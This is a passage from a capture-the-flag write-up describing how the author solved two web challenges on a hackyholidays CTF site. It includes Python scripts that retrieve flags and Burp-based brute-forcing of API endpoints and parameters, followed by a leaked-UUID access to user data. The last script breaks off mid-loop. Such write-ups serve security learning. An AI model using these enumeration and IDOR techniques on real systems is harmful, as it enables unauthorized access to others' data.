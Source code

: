 ```
#!/usr/bin/python3
import requests
import base64
import json

if __name__ == "__main__":
    print("[*] Challenge 3")
    payload = json.dumps({"id": "1"})
    base64 = base64.b64encode(payload.encode("utf-8"))
    url = "https://hackyholidays.h1ctf.com/people-rater/entry?id={}".format(base64.decode('utf-8'))
    r = requests.get(url)
    j = r.json()
    print("[*] Flag: {}".format(j["flag"]))
```

#Challenge 4
The fourth challenge was accessible by browsing https://hackyholidays.h1ctf.com/swag-shop . The relative webpage contained some items of a shop.

{F1140328}

This challenge took me some time. First, I inspected the source code and discovered that some HTTP requests where made to various /api/* endpoints.

{F1140329}
{F1140331}

I tried to perform a file bruteforce with Burp "Content Discover" on the /api endpoint using a custom wordlist (attached in the report).  The following endpoints were discovered:

{F1140332}

/api/sessions returned a list of base64 encoded values. 

{F1140333}

Decoding the values, I noticed that one of them contained an UUID string as "user" property. 

{F1140334}

/api/user returned the following error message.

{F1140335}

It was necessary to discover the right parameters  to call the API. I used again a custom wordlist and Burp Intruder to find the right parameter: uuid.

{F1140336}
{F1140337}

1+1 is 2, therefore I used the previously found UUID in the /api/user request and retrieved the fourth flag.
https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043

{F1140338}

Flag: flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}
The following script exploits the challenge and retrieve the flag.
```
#!/usr/bin/python3
import requests
import base64
import json

if __name__ == "__main__":
    print("[*] Challenge 4")
    url = "https://hackyholidays.h1ctf.com/swag-shop/api/sessions"
    r = requests.get(url)
    j = r.json()
    for el in j["sessions"]:
        elencode = el.encode("utf-8")
```